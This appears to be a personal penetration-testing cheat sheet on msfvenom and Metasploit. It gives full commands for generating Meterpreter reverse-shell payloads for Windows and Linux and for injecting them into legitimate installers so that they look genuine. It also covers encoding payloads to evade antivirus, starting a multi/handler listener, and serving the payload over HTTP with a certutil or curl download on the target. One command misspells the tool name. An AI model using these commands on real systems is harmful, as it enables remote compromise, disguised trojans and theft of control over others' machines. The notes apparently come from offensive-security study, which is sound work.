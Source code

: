 ### **Staged vs Non-Staged Payloads:**
`msfvenom --list payloads`

![[Pasted image 20250419170617.png | 1000]]



# **Commands:**
`-a` specify the arch of the target, `x86` is a 32 bit system and `x64` is a 64 bit system.
`-p` specify the payload, e.g. `windows/meterpreter/reverse_tcp`
`LHOST=<ur attacking machine IP>` 
`LPORT=<Attackin machine Port>`
`-f <format of payload>` example: exe, asp, pdf. then output it using `-f exe > /home/asem/test_payload.exe`
`-e <encoding_file>`  example: `x86/shikata_ga_nai` 
`-x <file to inject>`  Inject payload in a installation file or something
`-k`   Used with `-x` to make the Injected file run normally after the user run it to make it look legitimate.


---
# **To generate #msfvenom Payloads:**
#### **64-bit Windows asp reverse shell payload⬇**

	msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<ur_machine_ip> LPORT=<port_to_listen> -f asp > shell.asp


#### **32-bit Linux elf reverse shell payload:**

	msfvenome -a x86 -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=7777 -f elf > file.elf


#### <mark style="background: #e74c3c;"> **It's recommended to use a 32 bit payload so if u don't know the arch of the target it works either way **</mark>  
<br>

#### **After creating our payload now we want to listen to it:**
- In msfconsole: `use multi/handler`
- Then set the payload we used when we created the payload above: `set payload windows/meterpreter/reverse_tcp`
- Then set the LHOST & LPORT: `set LHOST <our_attacking_machine_ip>`   Then `set LPORT <listening_port>`


---


---


# **Encode Payloads to evade signature based-AVs:**
- This technique is not used anymore because Anti Viruses have a huge database of signature of malwares so it's easy to detect them.

#### To list all encoders available:
`msfvenom --list encoders`

Best encoders have the excellent rank: 
This is used to encode powershell scripts:

	cmd/powershell_base64

Can encode both Linux and Windows payloads 

	x86/shikata_ga_nai


To encode a payload (With 10 iteration. More than that doesn't help actually):

	msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.100.37 LPORT=7777 -i 10 -e x86/shikata_ga_nai -f exe > /home/asem/Desktop/shikata_win_32.exe


![[Pasted image 20250419190210.png | 1100]]




---


# **Listen:**

`use multi/handler`  

Then the same: `LHOST` and `LPORT` and `Payload`

---


# **Host the Payload to a Python HTTP server:**
in a python2 environment:

	python -m SimpleHTTPServer 80

in a python3 environment:

	python -m http.server 80

#### Then use this built in Windows utility to download a file from the web:
	certutil -urlcache -f http://10.10.45.3/payload.exe payload.exe

#### Or use curl:

	curl http://10.10.45.3/payload.exe > payload.exe




